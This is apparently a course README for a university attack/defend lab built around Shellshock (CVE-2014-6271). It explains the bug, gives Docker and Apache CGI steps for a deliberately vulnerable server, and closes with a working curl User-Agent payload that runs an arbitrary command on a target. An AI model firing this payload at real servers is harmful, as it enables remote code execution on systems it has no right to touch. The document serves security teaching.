 # CSEC-742-Project
**Attack Defend Exercise for Computer System Security (RIT CSEC-742)**

**Gain understanding and experience with vulnerabilities and exploitation**

Construct a vulnerable system for others to attack and configure a monitoring system to observe attacks. Set up a VM, configure it to be susceptible to an exploit, and connect it to the private subnet in the RIT Virtual Lab Environment. Attack other students' infrastructures to discover their vulnerabilities, observe attacks against your infrastructure, and create offensive and defensive reports reviewing the techniques you used or observed.

## Timeline
- Part 1: Exploit working (11/1)
- Part 2: Monitoring working (11/11)
- Part 3: Competition (11/13-11/25)
- Part 4: Writeups - Offensive and Defensive (11/29)
- Part 5: Comments and feedback for classmates (12/9)

## Exploit Overview
<img src="https://upload.wikimedia.org/wikipedia/commons/thumb/4/44/Shellshock-bug.png/1024px-Shellshock-bug.png" alt="Shellshock Logo" width="100"/>

**[Shellshock (CVE-2014-6271)](https://www.exploit-db.com/exploits/34765)**

Shellshock is a group of security bugs in Unix’s default Bash (Bourne-Again) shell which allow for a user to run arbitrary code on vulnerable devices that they can connect to. These vulnerabilities were discovered between September 12th and September 24th, 2014 with patches being co-developed by vulnerability researchers and the Bash maintainers prior to disclosure.  The initial discovery showed that Bash would unintentionally execute commands when they were concatenated to the end of function definitions stored in the values of environment variables. There were many ways that the bug could be leveraged, including via the internet through unpatched web servers, SSH servers, DHCP clients, and mail servers. Attackers began exploiting Shellshock within hours of disclosure, attacking various entities such as Akamai, Yahoo!, and the United States Department of Defense.

## Implementation Details

### Docker-Compose:
[Docker Hub](https://hub.docker.com/r/wwt92829/csec-472-project)
```
version: '3'

services:

  server:
    image: wwt92829/csec-472-project
    container_name: server
    ports:
      - "80:80"
```
1. Download a vulnerable version of Bash (this image uses 4.2) from [GNU's website](http://ftpmirror.gnu.org/bash/).
2. Create a web server (this image uses Apache httpd) and enable support for CGI. In httpd.conf:
    - Uncomment  `LoadModule cgid_module modules/mod_cgid.so` and `LoadModule cgi_module modules/mod_cgi.so`
    - Uncomment `ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"`
3. Create and frame a shell script with `Content-type: text/html` in an HTML file. The shell script should be stored in the cgi-bin directory specified in httpd.conf.
4. Build a Dockerfile from the [httpd](https://hub.docker.com/_/httpd) Docker image.
    - Update the package lists and install dependencies
    - Downgrade Bash by installing the old version with dpkg
    - Copy httpd.conf to the apache2/conf directory
    - Copy the HTML file with the framed shell script to the htdocs or /var/www/html directory
    - Set the shell script as executable using chmod and place it in the cgi-bin directory
5. Create a Docker-Compose file to build the container and expose the desired port on the host to the container's port 80.

### Run exploit:
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c '<command>'" http://<ip address>/cgi-bin/toucan
```
Set the <ip address> or hostname of the server to run the exploit on. The Shellshock exploit is invoked by changing the user agent to include a variant of `() { :; };` and replacing `<command>` with any command that will now be executed as the daemon user.
